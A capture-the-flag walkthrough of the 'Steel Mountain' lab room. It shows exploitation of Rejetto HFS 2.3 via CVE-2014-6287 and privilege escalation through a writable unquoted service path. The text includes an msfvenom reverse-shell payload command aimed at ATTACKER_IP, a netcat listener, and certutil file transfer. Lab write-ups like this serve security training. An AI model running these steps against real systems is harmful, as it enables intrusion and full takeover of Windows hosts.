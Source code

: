 # Steel Mountain

### **Tasks**:

1. **Introduction**:
   1. Just visit ip in browser and reverse image search in google after downloading picture - Bill Harper
2. **Initial Access**:
   1. Do `nmap -sC -sV -T5 ip` and answer the question, visit 8080 port we get server is running rejetto http file server version 2.3
   2. Search Exploit-DB for rejetto and find CVE - CVE-2014-6287
   3. Search in msfconsole for exploit , `use exploit/windows/http/rejetto_hfs_exec`, set RHOSTS and PORT details of victim and run to gain meterpreter shell, use `shell` ,to switch to cmd and go to bill's desktop , find user.txt and submit.
3. **Privilege Escalation**:
   1. `upload PowerUp.ps1` from meterpreter.
   2. `load powershell` and type `powershell_shell` to get powershell.
   3. Execute `./PowerUp.ps1` and run `Invoke-AllChecks` - AdvancedSystemCareService9 is unquoted service with writable permission, stop the service using `sc stop AdvancedSystemCareService9`.
   4. Generate malicious exe with `msfvenom -p windows/shell_reverse_tcp -e x86/shikata_ga_nai LHOST=ATTACKER_IP LPORT=1337 -f exe -o ASCService.exe`
   5. Copy the the malicious binary to victim machine and replace in service path.
   6. Start netcat listener in attacker machine - `nc -nvlp 1337`
   7. Start service in victim machine using `sc start AdvancedSystemCareService9`
   8. Check netcat terminal - You have root access, go to Administrator desktop , find root.txt and submit root flag !!!.
4. **Access and Escalation Without Metasploit**:
   1. Instead of using meterpreter use [exploit-db code](https://www.exploit-db.com/exploits/39161), host ncat.exe in port 80 using python simple httpserver and gain shell .
   2. Copy winPEAS binary to victim using certutil or any other technique and run - You will get same result that AdvancedSystemCareService9 is unquoted service with writable permission
   3. Now proceed from msvenom payload generation as done in task 3 to get root.
   4. Get-Service is used to find service names.
